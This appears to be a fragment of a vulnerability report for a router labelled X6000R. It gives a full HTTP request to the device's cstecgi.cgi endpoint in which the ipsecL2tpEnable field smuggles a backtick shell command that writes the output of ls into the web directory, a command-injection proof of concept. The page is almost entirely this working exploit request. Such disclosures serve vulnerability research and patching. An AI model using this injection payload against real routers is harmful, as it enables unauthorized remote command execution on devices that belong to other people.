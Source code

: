 ![image-20241029115415374](./X6000R/images/image-20241029115415374.png)



### `ipsecL2tpEnable`

```
POST /cgi-bin/cstecgi.cgi?token=D526E9BD192CC73D HTTP/1.1
Host: ip:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:127.0) Gecko/20100101 Firefox/127.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 239
Origin: http://ip:8081
DNT: 1
Sec-GPC: 1
Connection: keep-alive
Referer: http://ip:8081/advance/l2tp.html?token=D526E9BD192CC73D
Priority: u=1

{"enable":"1","sip":"10.8.0.2","eip":"10.8.0.51","server":"10.8.0.1","priDns":"8.8.8.8","secDns":"10.20.0.1","mtu":"1450","mru":"1450","ipsecL2tpEnable":"`ls >/web/poc_l2tp_ipsecL2tpEnable.txt`","ipsecPsk":"","topicurl":"setL2tpServerCfg"}
```
